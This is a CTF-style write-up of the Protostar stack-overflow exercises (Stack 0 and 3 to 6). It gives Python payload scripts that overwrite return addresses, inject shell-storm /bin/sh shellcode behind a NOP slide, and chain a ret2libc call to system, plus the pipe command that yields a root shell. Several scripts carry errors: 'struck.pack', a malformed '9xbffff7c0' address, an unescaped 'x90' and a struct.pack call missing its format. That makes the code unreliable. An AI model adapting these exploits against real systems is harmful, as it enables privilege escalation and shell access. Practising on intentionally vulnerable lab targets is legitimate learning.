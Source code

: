# Protostar

## Stack 0

Simple buffer overflow, use python -c print "A" \* 40

## Stack 3

```python
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"
#print (padding)
#chr(0x51) #prints char that is 0x51 (Q)
padding += "\x24\x84\x04\x08" #0x08 04 84 24 -> Little endian address
print padding
```

## Stack 4

Change the eip that was pushed to the stack, so when ret happens we go to where we want.

```python
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"
ebp = "AAAA"
eip = struck.pack("I", 0x080483f4) # Convert number to binary string
print (padding+ebp+eip)
```

## Stack 5

Getting root privileges We use the esp to move the return of the function to writing as root

```python
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
eip = struck.pack("I", 9xbffff7c0+30)
nopslide = "x90" * 100
payload = "\xCC" * 4 #uses interrupt instruction
print (padding+eip+nopslide+payload)
```

Using shell-storm.org /bin/sh code [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php)

```python
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

When executing, use the command:

```text
(python exploit.py; cat) | /opt/protostar/bin/stack5
```

Then we have the shell.

## Stack 6

We can get the offset related to the library using

```text
strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
```

So, we use `info proc map` and get the address of the libc.   
 Then, `x/s 0xlibcaddr+0xoffset`.   
 Using `0xb7fb64bf` as example.

```python
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
system = struct.pack("I", 0xb7ecffb0)
return_after_system = "AAAA"
bin_sh = struct.pack(0xb7fb64bf)
print padding + system + return_after_system + bin_sh
```

